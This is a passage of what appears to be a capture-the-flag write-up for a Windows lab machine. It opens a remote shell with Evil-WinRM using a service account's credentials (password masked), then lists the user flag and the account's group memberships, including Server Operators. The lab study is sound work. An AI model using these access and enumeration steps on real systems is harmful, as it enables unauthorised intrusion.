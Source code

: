 ```bash

```


# Evil-WinRM shell

Since port ```5985``` is open, and nothing interesting came from the enumeration for the shares and users, we can attempt a shell using ```Evil-WinRM``` with the credentials we have, so we ca collect out ```user.txt``` flag.

```bash
evil-winrm -i return.local -u svc-printer -p '**********'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc-printer\Documents> dir C:\Users\svc-printer\Desktop\


    Directory: C:\Users\svc-printer\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        5/31/2025   7:28 AM             34 user.txt

```

# Enumeration of svc-printer Groups and Privileges


```bash
*Evil-WinRM* PS C:\temp> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes
========================================== ================ ============ ==================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Server Operators                   Alias            S-1-5-32-549 Mandatory group, Enabled by default, Enabled group
BUILTIN\Print Operators                    Alias            S-1-5-32-550 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
```
